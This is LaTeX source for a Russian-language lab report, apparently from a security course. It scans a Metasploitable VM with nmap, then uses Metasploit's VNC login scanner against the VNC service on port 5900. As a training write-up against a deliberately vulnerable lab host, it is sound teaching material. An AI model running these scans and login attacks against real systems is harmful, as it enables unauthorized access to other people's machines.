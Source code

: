 \documentclass{article}
\begin{document}
 \paragraph{GUI веб-клиент}
 Клиент доступен на порту 3790 после запуска apache.
 \subsection{Практическое задание}
 \paragraph{Подключиться к VCN серверу, получить доступ к консоли}
 \subparagraph{Просканируем порты на гостевой ос metasploitable.\\}
 Команда:
 \begin{verbatim}
 	nmap 192.168.150.3 -sV
 \end{verbatim}
 \begin{figure}[h!]
 	\centering
 	\texttt{[image: scr1-5]}
 	\caption{Сканирование metasploitable.}
 \end{figure}
 
 Видно, что VCN сервер располагается на порте 5900.
 
 В msfconsole воспользуемся командой:
 \begin{verbatim}
 	search "VNC (protocol 3.3)
 \end{verbatim}
  
  \begin{figure}[h!]
  	\centering
  	\texttt{[image: scr2]}
  	\caption{Поиск эксплоитов vcn.}
  \end{figure}
  
  Как видно из рисунка 3 присутствуем много эксплоитов. По каждому можно получить информацию командой \verb'info <exploit_name>'
 
 \subparagraph{Воспользуемся 'auxiliary/scanner/vnc/vnc login'\\}
 
 Для этого введем команду \verb'use auxiliary/scanner/vnc/vnc_login'
 
 Установим необходимые параметры \verb'set RHOSTS 192.168.150.3'
 
 Запустим exploit - \verb'exploit'
 
  \begin{figure}[h!]
  	\centering
  	\texttt{[image: scr3]}
  	\caption{Работа эксплоита.}
  \end{figure}
 
\end{document}
